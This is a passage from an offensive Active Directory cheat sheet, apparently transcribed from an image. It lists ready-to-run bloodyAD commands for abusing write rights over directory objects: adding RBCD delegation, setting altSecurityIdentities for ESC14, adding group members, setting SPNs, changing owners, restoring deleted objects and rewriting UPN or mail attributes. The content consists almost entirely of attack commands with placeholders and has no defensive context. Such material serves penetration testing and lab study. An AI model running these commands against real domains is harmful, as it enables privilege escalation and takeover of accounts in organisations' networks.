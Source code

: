 ###### Add RBCD Entry

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```

###### Set altSecurityIdentities (ESC14)

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```

###### Add to Group

```sh
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```

###### Set SPN

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```

###### Set Owner

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```

###### Restore Deleted Object

```sh
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
```

##### GenericWrite

###### Modify UPN

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user userPrincipalName -v $new_upn
```

###### Modify Mail

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```

###### Set altSecurityIdentities

```sh
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
